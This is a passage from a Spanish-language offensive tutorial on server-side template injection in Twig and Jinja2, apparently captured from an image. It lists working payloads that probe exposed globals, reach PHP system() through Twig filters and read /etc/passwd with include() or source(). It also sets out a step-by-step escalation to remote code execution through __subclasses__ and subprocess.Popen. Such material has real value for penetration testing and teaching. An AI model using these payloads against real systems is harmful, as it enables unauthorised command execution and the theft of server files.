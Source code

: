 ```
{{ ['a','b']|join(',') }}
{{ 'test'|upper }}
```

* Si ves funciones de la app en la salida, intenta leer objetos globales expuestos, por ejemplo `app` o `globals`:

```
{{ app }}
{{ _context }}
```

(Depende de la app; muchos frameworks exponen `app`, `session`, `request`).

### 3.3 Si hay posibilidad de ejecutar funciones PHP

Twig puede permitir acceso a `constant()` u `attribute()` que, combinado con extensiones inseguras, permite ejecución. Un ejemplo clásico (puede necesitar adaptación y existencias de funciones):

```
{{ _self.env.getFilter('system') }}
```

(o buscar extensiones registradas y reusar alguna que invoque `system` o `exec`).

### 3.4 Lectura local de archivos (si no hay exec directo)

Si no hay `system` pero puedes leer ficheros:

```
{{ include('/etc/passwd') }}
```

o

```
{{ source('/etc/passwd') }}
```

(la disponibilidad depende de las funciones registradas y la configuración de Twig).

---

# 4) Estrategia práctica paso a paso (aplica tanto a Jinja2 como a Twig)

1. **Detecta motor** con los payloads de la sección 1.
2. **Haz pruebas de lectura**: variables expuestas, constants, templates auxiliares.
3. **Enumera clases/funciones** (Jinja2: `__subclasses__()`; Twig: `constant()`, `_context`, `app`).
4. **Encuentra un vector de ejecución**:

   * Jinja2: `subprocess.Popen` o `os.system` vía `__subclasses__` → RCE.
   * Twig: funciones/extensions que permitan `system`, `exec`, o inclusión de archivos.
5. **Prueba comandos inofensivos primero**: `whoami`, `id`, `ls`.
6. **Si falla, captura errores**: la respuesta de plantilla puede incluir trazas que muestran nombres de variables y objetos útiles.
7. **Registra índices y resultados**: el índice de `Popen` cambia entre entornos; documentalo y automatiza la búsqueda (script local para iterar índices).

---